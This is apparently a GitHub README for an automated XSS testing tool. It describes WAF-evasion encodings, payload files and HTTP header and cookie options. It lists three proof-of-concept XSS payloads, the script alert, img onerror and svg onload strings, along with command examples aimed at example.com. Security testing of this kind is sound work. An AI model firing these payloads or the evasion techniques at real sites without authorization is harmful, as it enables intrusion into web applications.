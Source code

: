 # advanced-xss-injector
Advanced XSS Payload Injector: Automates XSS vulnerability testing in web apps. Features WAF evasion (URL encoding, HTML entities, Unicode, randomized payloads), customizable payloads (single/multiple file support), dynamic HTTP options (headers, cookies, GET/POST), and automated analysis of server responses to detect vulnerabilities.

Here's the **GitHub README** section for **How to Configure** and **Usage Examples**:

---

## How to Configure

1. **Create a Payloads File**:  
   - Name the file `payloads.txt`.  
   - Add all your desired XSS payload scripts, each on a new line.  
   - Example:  
     ```
     <script>alert('XSS');</script>
     <img src="x" onerror="alert('XSS')">
     <svg onload=alert('XSS')>
     ```

2. **Install Required Dependencies**:  
   - Ensure you have Python 3 installed.  
   - Install necessary Python libraries using:
  
     pip install requests
     ```

---

## Usage Examples

### 1. **Single Payload with WAF Evasion (GET Method)**  
Run the tool to test a single payload with WAF evasion:  

python3 advanced_xss_injector.py -u "http://example.com/vulnerable" -p "q" -m GET --payload "<script>alert('XSS');</script>" --evade
```

2. **Multiple Payloads with Evasion (POST Method) 
Test multiple payloads from the `payloads.txt` file using POST requests with evasion techniques:

python3 advanced_xss_injector.py -u "http://example.com/vulnerable" -p "q" -m POST --payload-file payloads.txt --evade

---

## Additional Options
- **Custom Headers**: Add headers using `--headers`. Example:

  --headers "User-Agent: CustomAgent, Authorization: BearerToken"

- **Custom Cookies**: Add cookies using `--cookies`. Example:
  --cookies "sessionid=abc123; csrftoken=xyz456"
  ```

